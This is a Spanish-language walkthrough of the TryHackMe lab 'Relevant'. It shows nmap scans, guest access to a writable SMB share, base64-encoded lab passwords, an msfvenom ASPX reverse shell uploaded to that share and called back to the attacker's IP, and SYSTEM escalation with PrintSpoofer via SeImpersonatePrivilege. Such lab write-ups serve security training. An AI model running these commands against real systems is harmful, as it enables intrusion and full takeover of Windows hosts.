En esta maquina nos enfrentaremos a un servidor IIS, servicio de smb del cual tendremos que explotar. El servicio smb, en el cual se tiene un directorio el cual es compartido a la red, pero este tiene permisos de escritura el cual usaremos para obtener una shell en esta. Una vez realizado la intrusión encontraremos que el permiso `SeImpersonatePrivilege` nos permitirá escalar privilegios  hasta el usuario administrador.


- Link [Relevant](https://tryhackme.com/room/relevant)

- Created by [TheMayor](https://tryhackme.com/p/TheMayor)
# Enumeración

Iniciaremos enumerando los puertos abiertos de la maquina victima, este lo haremos con la herramienta `nmap`

```php
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.126.60 -oG allportSScan

PORT      STATE SERVICE       REASON                                                                                                                                                       
80/tcp    open  http          syn-ack                                                                                                                                                      
135/tcp   open  msrpc         syn-ack                                                                                                                                                      
139/tcp   open  netbios-ssn   syn-ack                                                                                                                                                      
445/tcp   open  microsoft-ds  syn-ack                                                                                                                                                      
3389/tcp  open  ms-wbt-server syn-ack                                                                                                                                                      
49663/tcp open  unknown       syn-ack                                                                                                                                                      
49667/tcp open  unknown       syn-ack                                                                                                                                                      
49670/tcp open  unknown       syn-ack
```

Veamos a detalle cada parametro:

- `-p-`: esta opción indica a `nmap` que escanee todos los puertos, es decir, desde el puerto 1 hasta el puerto 65535. El guion (`-`) especifica el rango de puertos completo.
    
- `--open`: esta opción indica a `nmap` que muestre solo los puertos que están abiertos. Esto reduce el ruido en la salida al mostrar solo los puertos accesibles.
    
- `--min-rate 5000`: esta opción establece la velocidad mínima de envío de paquetes a 5000 paquetes por segundo. Esto puede acelerar el escaneo de puertos al enviar paquetes más rápidamente.
    
- `-vvv`: esta opción activa el modo de verbosidad máximo, lo que significa que `nmap` mostrará una cantidad considerable de información sobre el progreso del escaneo y los detalles de los puertos y hosts descubiertos.
    
- `-Pn`: esta opción le indica a `nmap` que no realice el descubrimiento de hosts, lo que significa que no enviará pings para determinar si los hosts están activos. Esto es útil si el objetivo no responde a los pings, pero aún así queremos escanear sus puertos.
    
- `-n`: esta opción le indica a `nmap` que no realice la resolución de DNS inversa para las direcciones IP encontradas. Esto ayuda a acelerar el escaneo evitando la búsqueda de nombres de host.
    
- `10.10.126.60`: la dirección IP del objetivo que se está escaneando.
    
- `-oG allportSScan`: esta opción indica a `nmap` que genere la salida en formato "grepable" y guarde los resultados en un archivo llamado "allportSScan". Este formato es adecuado para el procesamiento posterior de los resultados del escaneo.


Luego de enumerar y saber que puertos están abiertas procederemos a enumerar los servicios y versiones que se ejecutan en cada puerto para explotar cada uno de ellos.

```php
❯ nmap -p80,135,139,445,3389,49663,49667,49670 -sC -sV -Pn -n 10.10.126.60 -vvv -oN servicesScan

PORT      STATE SERVICE        REASON  VERSION
80/tcp    open  http           syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc          syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn    syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   syn-ack Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server? syn-ack
|_ssl-date: 2024-02-24T04:26:47+00:00; +26s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2024-02-24T04:26:09+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-23T04:20:05
| Not valid after:  2024-08-24T04:20:05
| MD5:   db6d:b1e6:b183:e7dd:2cf0:e817:a896:2740
| SHA-1: b0f6:9da0:b0f0:d7ea:ca0f:b73b:5564:daee:be73:8860
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQFKbIZb8w3INKmMJDyVikkDANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZWxldmFudDAeFw0yNDAyMjMwNDIwMDVaFw0yNDA4MjQwNDIw
| MDVaMBMxETAPBgNVBAMTCFJlbGV2YW50MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA4TE2i9ELwjxfa8Mn31ghWN/mFDl0i9L++r5Lr60+3/wCoA7EFDtu
| 4fSqAwvhFyvw3//3Zjms0xJIxitxYzxwDXbQM7x9ck3/JnkGNJ2pvKSTVP/xRvjc
| WbjWsZimvRQhkJYapiRIwGcBlD3I5OOFMMT6zqC6baBh9ciKqvKBcp+tU4Fqg3jm
| klIMEcsCYpCZYYeiBi7+zPyqOeAzW+MVil3BqHP/rF5AITE7gYZPXyQ88eVzA3tg
| SzQ7Ji+revfLz+qk0mhPiIkAKu1rOMWQWj96PUqUZnKDkaCTxm2M/l+d9MYu9Cw4
| rf4Bjya4XO4F0FeIeqxSfQWHvRjpSsHFRwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBADHaiIE98vTp
| +A6KGFmN1oMLQrh00whm8o+W3yqpP+5sTmyxqGcDu3i+xyOpCukQ9Vgpj2eLMgka
| UPrZSxLnyV/Q0pLJYC9ehcTiWlNgnrumtH1sxDtiLWNpAUy7F65juJBmiuv8zupj
| JuD2SsKwySudUl7ETPjaZvK7zxfWhHf8y/dkdFpfgbwrEF3kEecV6H1B7v0iMOJF
| 6poolh5ijOFroXmzGAfeTLnOfeXxgjJzhkh9xOApDorxVlI1A0x5f93AbvuT2TNB
| eWxuFoSnicYLl1kBXjPDU1ZAZOWnMmxq+jTKRObPp6rMdvvMurQCqOzhDT6p0hhp
| J5qZiSDzZuI=
|_-----END CERTIFICATE-----
49663/tcp open  http           syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc          syn-ack Microsoft Windows RPC
49670/tcp open  msrpc          syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-24T04:26:11
|_  start_date: 2024-02-24T04:21:01
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-02-23T20:26:13-08:00
|_clock-skew: mean: 1h36m27s, deviation: 3h34m44s, median: 24s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59431/tcp): CLEAN (Timeout)
|   Check 2 (port 39094/tcp): CLEAN (Timeout)
|   Check 3 (port 24504/udp): CLEAN (Timeout)
|   Check 4 (port 35233/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Los parámetros que usamos de nmap fueron :

- `-p80,135,139,445,3389,49663,49667,49670`: esta opción especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 80, 135, 139, 445, 3389 y los puertos de rango 49663 a 49670.
    
- `-sC`: esta opción activa el escaneo de scripts de nmap, lo que implica ejecutar scripts prediseñados para detectar vulnerabilidades y recopilar información adicional sobre los servicios que se están ejecutando en los puertos escaneados.
    
- `-sV`: esta opción activa la detección de versión, lo que significa que `nmap` intentará determinar las versiones de los servicios que se están ejecutando en los puertos escaneados.
    
- `-Pn`: esta opción le indica a `nmap` que no realice el descubrimiento de hosts, lo que significa que no enviará pings para determinar si los hosts están activos. Esto es útil si el objetivo no responde a los pings, pero aún queremos escanear sus puertos.
    
- `-n`: esta opción le indica a `nmap` que no realice la resolución de DNS inversa para las direcciones IP encontradas. Esto ayuda a acelerar el escaneo evitando la búsqueda de nombres de host.
    
- `-vvv`: esta opción activa el modo de verbosidad máximo, lo que significa que `nmap` mostrará una cantidad considerable de información sobre el progreso del escaneo y los detalles de los puertos y servicios descubiertos.
    
- `-oN servicesScan`: esta opción indica a `nmap` que genere la salida en formato normal y guarde los resultados en un archivo llamado "servicesScan". Este formato es adecuado para la revisión manual de los resultados del escaneo.
## Enumeración de smb

Luego de enumerar los puertos, procederemos a enumerar el servicio smb, haciendo uso de `smbmap`

```php
❯ smbmap -H 10.10.126.60 -u 'guest'
```



Podemos ver que el directorio `nt4wrksv` el cual se tiene acceso a leer y escribir. Ahora  con la herramienta de `smbcleint` ingresaremos con el fin de leer los archivos 

```php
❯ smbclient \\\\10.10.126.60\\nt4wrksv
```



En el directorio `nt4wrksv` en el cual tenemos permisos de lectura, encontraremos un archivo `passwords.txt` en el cual encontraremos lo siguiente:

```php
❯ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk  
```



Haciendo uso de `base64` podremos dar lectura al texto decodificado.

```php
❯ cat usersPassword.txt
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

Teniendo las credenciales intentaremos ingresar con `psexec` 



Pero no podemos debido a que el usuario no tiene suficientes permisos



Enumerando el sitio web, encontremos con el siguiente directorio en el puerto `49663` 



Anteriormente se había visto el archivo `password.txt` enumerando el servicio smb en un directorio que teníamos permisos de escritura.
# Explotación

En este caso tenemos un servicio web que esta gestionado por un `IIS` por lo que debemos de subir un fichero en `.aspx`, para ello tenemos dos casos.

 - Caso 1
 
 En este caso haremos uso de un script el cual haremos uso para obtener una shell

- Link de la repo: [aspx-reverse-shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

Ahora solo cambiaremos la ip y el puerto.



Ingresaremos al directorio con `smbclient` y agregaremos nuestro archivo malicioso

```php
smb: \> put revershell.aspx
```



- Caso 2

Para el segundo caso haremos uso de `msfvenom` con el cual generaremos nuestro fichero malicioso para luego agregar nuestro archivo el directorio compartido de `smb`

```php
 ❯ msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=10.9.115.196 LPORT=4444 -o shell.aspx  
```

```php
smb: \> put shell.aspx
```



# Escalada de privilegios

Luego de hacer la petición al sitio web en el directorio donde se encontraba `passwords.txt` y cambiemos por nuestro archivo podremos obtener una shell. Luego enumerar con lo siguiente `whoami /priv` podremos encontrar lo siguiente.



El permiso que encontramos es `SeImpersonatePrivilege` el cual podremos usar para escalar privilegios
## SeImpersonatePrivilege

Podemos hacer uso de los siguientes post y poder documentarnos con :

- [Hacking articles](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases)

Haremos uso de `PrintSpoofer64.exe` para poder escalar privilegios, pero antes debemos de subir el archivo



Luego podremos encontrar nuestro archivo en la dirección `c:\inetpub\wwwroot\nt4wrksv`. Ahora podremos copiarnos a un directorio que tenemos privilegios para ejecutar.

Ejecutamos :

```php
C:\Windows\Temp>PrintSpoofer64.exe -i -c c:\windows\system32\cmd.exe
```

Y podremos escalar privilegios


